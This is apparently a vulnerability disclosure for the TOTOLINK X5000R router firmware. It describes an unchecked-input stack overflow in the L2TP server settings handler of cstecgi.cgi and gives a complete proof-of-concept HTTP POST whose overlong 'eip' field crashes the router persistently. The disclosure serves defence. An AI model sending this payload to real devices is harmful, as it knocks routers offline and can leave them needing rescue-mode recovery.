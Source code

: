 # TOTOLINK Vulnerability

Vendor:TOTOLINK

Product:X5000R

Version:X5000R_Firmware(V9.1.0u.6118_B20201102)

Type:Stack Overflow

Author:Jiaqian Peng,Huizhao Wang

Institution:pengjiaqian@iie.ac.cn,wanghuizhao@iie.ac.cn



## Vulnerability description

We found an stack overflow vulnerability in TOTOLINK Technology router with firmware which was released recentl, allows remote attackers to crash the server.

**Stack Overflow**

In `cstecgi.cgi` binary:

In `setL2tpServerCfg` function, `eip、sip、server` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow,so we can control the `eip、sip、server` to crash the server.

As you can see here, the input has not been checked.And then,call the function nvram_set to store this input.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

In `rc` binary:

Eventually, the initial input will be extracted and cause the stack overflow.

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

**Supplement**

This vulnerability not only crashed my router, but also cannot be repaired, it can only be restored through rescue mode.

In order to avoid such problems, we believe that the string content should be checked in the input extraction part. For example, make sure it is a valid ip address.



## PoC

We set `eip` as **aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa....** , and the router will crash, such as:

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 339
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/advance/l2tp.html?time=1639908493613
Cookie: SESSION_ID=2:1420070622:2

{"enable":"1","sip":"10.8.0.2","eip":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa","server":"10.8.0.4","priDns":"8.8.8.8","secDns":"","mtu":1450,"mru":1450,"ipsecL2tpEnable":"0","ipsecPsk":"","topicurl":"setL2tpServerCfg"}
```

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>



## Result

The target router crashes and cannot provide services correctly and persistently.

